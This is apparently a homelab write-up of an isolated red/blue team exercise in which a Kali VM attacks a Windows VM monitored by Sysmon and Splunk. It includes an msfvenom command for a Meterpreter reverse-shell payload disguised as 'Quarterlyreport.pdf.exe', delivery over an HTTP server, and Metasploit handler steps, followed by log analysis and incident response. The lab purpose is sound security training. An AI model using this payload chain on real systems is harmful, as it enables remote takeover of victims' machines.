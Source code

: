<h3>Objective</h3>

I created this lab to have a safe space to safely experiment with red/blue team roles in a live environment. In this lab, I will create a private network with two endpoints. One of the VMs will be our blue team machine(Windows Box) and the other will be our red team machine(Kali-linux). I will place both machines on a private network and use Metasploit in the Kali Linux VM to attack our Blue team VM, which will have Sysmon and a Splunk instance to capture all the traffic. 

<h3>Skills Learned</h3>  

-Log analysis

-Configuration of a System Information Event Manager(SIEM)

-Red/blue teaming

-Virtual machine configuration

-Experience in a simulated live environment

<h3>Tools Used</h3>

-Splunk

-Sysmon

-Metasploit

<h3>Virtual Machine/Network Setup</h3>   

Spin up two VMs, One being Windows and the other being Kali Linux. On both VMs set the network adapter to the "Internal Network" setting while making both VM IPs static to the same network. This network scheme was selected to keep the VMs from being accessible from the open web, while also having the ability to communicate with each other.

The IP's in this Homelab: Windows VM- 192.168.33.2, Kali VM- 192.168.33.3 

For this lab, we will open up the RDP port(3389) and turn off the firewall on our Windows VM.

<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />

Ref 1: Virtual Box Settings

<h3>Splunk Setup</h3>

To set up our blue team environment on our Windows VM, we will be configuring Sysmon on the endpoint to gather event logs and send them directly to our Splunk instance.
We did this by allocating a Sysmon config file from Github, copying it to the directory containing the Sysmon application, and running the command ./sysmon64.exe -i sysmonconfig.xml in Powershell.
Installing Sysmon will enhance our ability to capture system events.(Since I don't want to expose these VMs to the open web, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file directly into the VM.) 
For Splunk configuration, I installed the Sysmon add-on and created the "endpoint" index. Our Sysmon config file will point to the index we created by its name, allowing Sysmon to send logs to our Splunk instance

<h3>Weaponization</h3>
  
  To create telemetry from our Kali VM to our Windows VM, we are going to use the well-known Metasploit pentesting tool.
We will start by creating the Malware payload with this command: "msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe".
-p chooses the payload we want to use provided by the Metasploit tool. 
"lhost", determines which IP this reverse shell payload will remote back to when executed.
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.

![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)

Ref 2: Malicious Payload

<h3>Delivery/Installation</h3>

Now we need to deliver the payload to the end user.
To do so, we will host an HTTP Python server by running the command: "python3 -m http.server 9999", inside the directory where the payload was saved to.
On our Windows machine, we will search for the IP via browser to find the https server being hosted by our Kali VM followed by ":9999" which is the port designated in our Python command. 

![executing the file](https://github.com/user-attachments/assets/b5601151-d80e-4cca-9425-6304a0f62d4e)

Ref 3: Delivering the Payload to the Victim

Searching this will result in us being pointed to the directory in our Kali VM. We will then download and execute the malicious file we created.
We see on our Kali terminal that a "GET" request was logged, meaning the file was requested.
After running "netstat -anob" on the Windows VM we see a network connection established to our Kali VM. 

<h3>Command & Control</h3>

Now that we have successfully delivered and installed our malware, it's time to carry out the exploitation phase of our attack.
We do this by opening the Msfconsole on our Kali VM and configuring the handler by setting the payload to "windows/x64/meterpreter/reverse_tcp" and setting our local IP and the port we want the exploit to use on the victim machine.
After configuring the handler, we insert the exploit into the CLI to initiate the reverse TCP handler.
The session has been opened with our victim machine (192.168.33.2).

![Updated handler](https://github.com/user-attachments/assets/1106b392-a05b-4a9f-a284-8d72a3783490)

Ref 4: Reverse Shell

Now we will run the following commands in our handler to open up a shell and create network traffic to analyze in our Splunk instance.
Commands: shell, netstat, ipconfig, net user, net group.

<h3>Log Analysis</h3>

Time to do some threat hunting in our Splunk instance.
We will start by searching for our index in Splunk.
I have a suspicion that the 192.168.33.3 IP we are sending traffic to is a threat, let's filter traffic that is being sent to that IP.

![Screenshot 2025-03-10 211850](https://github.com/user-attachments/assets/63eb2f00-f37e-44f8-a4ad-3107ed305bd4)

Ref 5: Splunk Query by IP

After analyzing the event, we see that one of the events has a suspicious executable file with two file extensions in the name.
Luckily, we are running Sysmon, which allows us to retrieve the SourceProcessGUID, if we filter by this field, we can display all events related to this suspicious file. 

![SIEM SourceProcessGUID](https://github.com/user-attachments/assets/d41747eb-220b-4aaf-a606-6870af1f8ff4)

Ref 6: Splunk Event Details

We queried the SourceProcessGUID and organized the output with the table command to display the Time, ParentImage, Image, and Command Line.

![Final SIEM](https://github.com/user-attachments/assets/e96640cd-65a9-40e6-a0a4-0e3663bc74e8)

Ref 7: Shell Commands With a Parent Process of Quarterlyreport.pdf.exe

<h3>Incident Response</h3>

Upon analysis, we see commands being executed affiliated with an IP that is not the host's, sound the alarms.
In a real life scenario, this endpoint would be immediately quarantined from the rest of the network to mitigate damage from spreading.
The IP would also be blacklisted and the firewall reconfigured to block this suspected RAT throughout the network.

